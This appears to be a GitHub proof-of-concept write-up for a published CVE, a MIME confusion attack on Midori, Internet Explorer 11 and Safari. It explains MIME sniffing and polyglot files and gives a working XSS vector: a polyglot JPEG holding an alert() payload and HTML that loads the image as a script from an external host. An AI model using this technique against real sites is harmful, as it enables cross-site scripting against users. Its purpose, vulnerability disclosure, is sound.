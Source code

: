 # MIME Confusion Attack

This PoC describes a MIME confusion attack on: 

* Midori Browser 0.5.11 on Windows 10  // I published this CVE-2019-19916 (https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19916)

* Internet Explorer 11.535.18362.0 on Windows 10

* Safari 10.1.2 (12603.3.8) on MacOS Sierra


## About the MIME Confusion Attack

Scanning the content of a file allows web browsers to detect the format of a file regardless of the specified Content-Type by the web server. For example, if browser requests script from a web server and that web server sends that script using a Content-Type of “image/jpg” browser will successfully detect the actual format and will execute the script. This technique, colloquially known as “MIME sniffing”, compensates for incorrect, or even complete absence of metadata browsers need to interpret the contents of a page resource. The browser uses contextual clues (the HTML element that triggered the fetch) or also inspects the initial bytes of media type loads to determine the correct content type. While MIME sniffing increases the web experience for the majority of users, it also opens up an attack vector known as MIME confusion attack.

Consider a web application which allows users to upload image files but does not verify that the user actually uploaded a valid image, e.g., the web application just checks for a valid file extension. This lack of verification allows an attacker to craft and upload an image which contains scripting content. The browser then renders the content as HTML opening the possibility for a Cross-Site Scripting attack (XSS). Even worse, some files can even be polyglots, which means their content satisfies two content types. E.g., a GIF can be crafted in a way to be valid image and also valid JavaScript and the correct interpretation of the file solely depends on the context.

## About Midori Browser

Download: https://www.midori-browser.org/download/


## Step by Step Proof of Concept

As PoC i used a polyglot GIF with a built-in JavaScript code (available at: http://portswigger-labs.net/polyglot/jpeg/xss_within_header_compressed_small_logo.jpg):

```
 */=alert("Burp rocks.")/*
```

And the following HTML / JS code:

```
  <html>
     <img src="2x.jpg">
	   <script src="https://poc.sejalivre.org/wp-content/uploads/2019/12/2x.jpg"></script>
 </html>
```

I hosted at http://joomla.sejalivre.org

Simply accessed the page mentioned above on browsers.

As shown, we find that the browsers has no implementation against MIME confusion attacks

## Midori

![alt](https://ciber.sejalivre.org/WP/MD-1.png)
![alt](https://ciber.sejalivre.org/WP/MD-2.png)

## Internet Explorer

![alt](https://ciber.sejalivre.org/WP/IE-1.png)
![alt](https://ciber.sejalivre.org/WP/IE-2.png)

## Safari

![alt](https://ciber.sejalivre.org/WP/SF-1.png)
![alt](https://ciber.sejalivre.org/WP/SF-2.png)
